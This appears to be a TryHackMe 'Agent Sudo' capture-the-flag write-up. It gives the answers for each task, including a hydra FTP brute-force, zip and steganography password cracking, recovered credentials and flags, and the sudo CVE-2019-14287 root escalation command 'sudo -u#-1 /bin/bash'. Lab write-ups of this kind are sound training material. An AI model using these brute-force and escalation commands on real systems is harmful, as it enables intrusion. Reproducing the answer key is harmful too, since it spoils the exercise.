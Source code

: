 Try Hack Me.
--------------------------------------------------------------------------------
#Agent-Sudo

```
export IP=10.10.103.171
```

#Task 1 Author note

Welcome to another THM exclusive CTF room. Your task is simple, capture the flags just like the other CTF room. Have Fun!

If you are stuck inside the black hole, post on the forum or ask in the TryHackMe discord.

1. Deploy the machine
```
NO answer needed
```

#Task 2 Enumerate

Enumerate the machine and get all the important information
 	

1. How many open ports?

```
3
```

3.How you redirect yourself to a secret page?

```
User-Agent  (curl http://$IP -H "User-Agent: C" -L)
```

3. What is the agent name?
```
Chris
```

#Task 3 Hash cracking and brute-force

Done enumerate the machine? Time to brute your way out.

1. FTP password
```bash
crystal  (via hydra : hydra -l chris -P /usr/share/wordlists/rockyou.txt ftp://$IP)
```
	
2. Zip file password
```
alien (binwalk e pngfile,zip2john e num.zip>hash.txt,john hash.txt --wordlist=rockyou.txt AND unzipped with #7z e num.zip)
```
	
3. steg password
```
Area51 (from the message in above unzipped file..decoded a base64 string)
``` 	

4. Who is the other agent (in full name)?
```
james (steghide extract -sf jpgfile ,Got his name and password for chris login)
```	

5. SSH password
```
hackerrules!
```

#Task 4 Capture the user flag

You know the drill.

1. What is the user flag?
```
b03d975e8c92a7c04146cfa7a5a313c7 (from the ssh login as chris)
```
	
2. What is the incident of the photo called?
```
Roswell alien autopsy (scp james@$IP:/home/james/Alien_autospy.jpg . #To download the jpgfile to our system and searched it with google image search)
```

#Task 5 Privilege escalation

Enough with the extraordinary stuff? Time to get real.
 	

1. CVE number for the escalation 

(Format: CVE-xxxx-xxxx)
```
cve-2019-14287 (scp /home/safan/linpeas/linpeas.sh james@$IP:/dev/shm and through sudo -l command we got  "(ALL, !root) /bin/bash" and googled it)
```
	
2. What is the root flag?
```
b53a02f55b57d4439e3341834d70c062
(got the root privilege by CVE*** bug using this "sudo -u#-1 /bin/bash")
``` 	

3. (Bonus) Who is Agent R?
```
Deskel (with the message of root.txt)
```




